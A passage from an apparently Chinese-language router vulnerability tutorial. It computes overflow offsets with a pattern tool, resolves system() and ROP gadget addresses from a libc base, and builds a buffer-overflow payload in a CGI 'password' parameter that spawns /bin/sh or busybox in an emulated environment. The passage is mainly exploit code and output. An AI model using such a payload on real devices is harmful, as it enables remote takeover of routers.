 计算几个点的偏移

```sh
#$s0
$ python patternLocOffset.py -s 0x68423868
[*] Create pattern string contains 1024 characters
ok!
[+] Possible match at offset 1015 (adjusted another-endian)
[+] take time: 0.0008 s
#$s5
$ python patternLocOffset.py -s 0x42356942
[*] Create pattern string contains 1024 characters
ok!
[+] Possible match at offset 1035 (adjusted another-endian)
[+] take time: 0.0007 s
#$ra
$ python patternLocOffset.py -s 0x6a42306a
[*] Create pattern string contains 1024 characters
ok!
[+] Possible match at offset 1051 (adjusted another-endian)
[+] take time: 0.0006 s
#$sp+0x14C-0x13C
$ python patternLocOffset.py -s 0x42376a42
[*] Create pattern string contains 1024 characters
ok!
[+] Possible match at offset 1071 (adjusted another-endian)
[+] take time: 0.0011 s
```

需要控制的一样是四个点

$s0=offset_system-0x1=0x76738000+0x53200-0x1=0x7678b1ff

$s5=offset_gadget1=0x76738000+0x159CC=0x7674d9cc

$ra=offset_gadget2=0x76738000+0x158C8=0x7674d8c8

$sp+0x14C+var_13C=command

构造参数重新运行

```sh
#构造字符
'A'*1015+0x7678b1ff+'B'*(1035-1015-4)+0x7674d9cc+'C'*(1051-1035-4)+0x7674d8c8+'D'*(1071-1051-4)+command
'A'*1015+'\xff\xb1\x78\x76'+'B'*(1035-1015-4)+'\xcc\xd9\x74\x76'+'C'*(1051-1035-4)+'\xc8\xd8\x74\x76'+'D'*(1071-1051-4)+'/bin/sh'+'\x00'
#执行命令
sudo ./cgi_run.sh `python -c "print 'id=1234&password='+'A'*1015+'\xff\xb1\x78\x76'+'B'*(1035-1015-4)+'\xcc\xd9\x74\x76'+'C'*(1051-1035-4)+'\xc8\xd8\x74\x76'+'D'*(1071-1051-4)+'/bin/busybox'+'\x00'"`
```

跟踪发现ROP链流程正确运行，但是在0x7674d9e4处程序停止了，这与DIR815一样是在system函数的处理流程出现了问题，是静态模拟运行情况下`fork()`出现了问题，这里就不再重复研究了。

## 第12章 Dlink DIR505便携路由器越界漏洞分析
